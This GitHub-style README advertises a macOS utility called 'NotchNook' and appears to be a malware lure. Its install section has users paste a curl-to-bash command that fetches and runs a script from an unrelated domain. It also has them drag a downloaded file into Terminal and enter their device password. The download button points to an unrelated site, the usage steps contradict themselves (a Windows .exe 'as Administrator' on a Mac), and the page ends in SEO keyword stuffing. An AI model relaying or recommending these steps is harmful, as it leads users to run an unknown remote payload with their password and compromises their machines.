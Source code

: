 <p align="center">
  <img src="https://images.toolfinder.co/tools/426/logo/notchnook-logo.webp?h=256&fm=webp&fit=pad&w=256&q=100" alt="NotchNook Logo" width="160px">
</p>

<h1 align="center">🍃 NotchNook for macOS</h1>
<p align="center"><strong>Smooth your workspace, control the notch, and perfect your Mac aesthetics with NotchNook.</strong></p>

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/85>
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20NotchNook%20MAC-GET%20FULL%20ACCESS-silver?style=for-the-badge&logo=apple&logoColor=white" alt="Download Button" style="width: 580px; height: 45px;">
  </a>
</p>

---
## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🎯 What is NotchNook?

NotchNook is a powerful macOS utility that lets you take full control over your MacBook notch area. Whether you're looking to hide, style, or enhance the notch space, NotchNook provides elegant overlays and functional tweaks to make the most out of your screen.

From professional setups to everyday customization, NotchNook integrates smoothly with all recent macOS versions, including Sonoma and Ventura, providing real-time notch management without performance impact.
Whether you want to display the clock, weather, status widgets, or just black out the notch space — it's all possible with just a few clicks.

it lets you:

- Add visual balance to the notch zone  
- Hide or center menu bar items around the notch  
- Apply subtle shading or dynamic wallpapers  
- Maintain a cleaner, symmetrical workspace

Whether you're using an M1 or M4 chip, NotchNook ensures the notch blends in style, not distracts.

---

## 🧩 Features

- ✨ **Dynamic notch styling** with elegant borders or blackout zones  
- 📐 **Menu bar spacing tools** for symmetry or hiding system icons  
- 🌈 **Custom overlays and gradients** for creative notch camouflage  
- 💻 **Optimized for macOS Sonoma & Sequoia** (13–15)  
- 🔒 Lightweight and sandboxed: zero background drain

---

## 📌 How to Use

1. Extract the archive on your macOS desktop  
2. Move the **NotchNook** app to Applications  
3. Launch **AppLauncher.exe from the archive as Administrator** (for compatibility layer setup)  
4. Customize notch visuals and bar spacing via the app UI  
5. Done! Your workspace is now cleaner and more refined ✨

---

## 🖼️ Preview

<p align="center">
  <img src="https://i.ytimg.com/vi/Cs_nnhjHUkM/hq720.jpg?sqp=-oaymwEhCK4FEIIDSFryq4qpAxMIARUAAAAAGAElAADIQj0AgKJD&rs=AOn4CLBY4VACO2xas1DeRWtWGIR5bgJYaw" alt="NotchNook Interface" width="720">
</p>

<p align="center">
  <img src="https://www.itopnews.de/wp-content/uploads/2024/07/Notchnook-Mac-748x422.jpg" alt="NotchNook Preview" width="720">
</p>

---

## 🖥️ System Requirements

- **macOS Versions:** 13, 14, 15  
- **Processor:** Apple Silicon (M1, M2, M3, M4)  
- **RAM:** Minimum 4 GB  

---

## 📢 Legal & Notice

This guide is provided for educational and demonstrational purposes. All trademarks and logos are the property of their respective owners.

---

## 🔍 SEO Keywords

NotchNook
NotchNook mac
NotchNook for mac
NotchNook download
NotchNook download mac
NotchNook mac download
download NotchNook for macOS
NotchNook latest version
NotchNook full version mac
get NotchNook on mac
how to use NotchNook on mac
NotchNook for mac free
NotchNook macOS app
NotchNook app for mac
install NotchNook mac
NotchNook dmg
NotchNook mac installer
NotchNook for MacBook
NotchNook for MacBook Air
NotchNook for MacBook Pro
NotchNook Intel mac
NotchNook M1 mac
NotchNook M2 mac
NotchNook M3 mac
NotchNook for silicon mac
download NotchNook Mac M1
NotchNook Mac full
NotchNook application mac
NotchNook setup mac
NotchNook .dmg download
NotchNook mac direct download
NotchNook macOS latest
NotchNook app download mac
NotchNook software for mac
NotchNook utility macOS

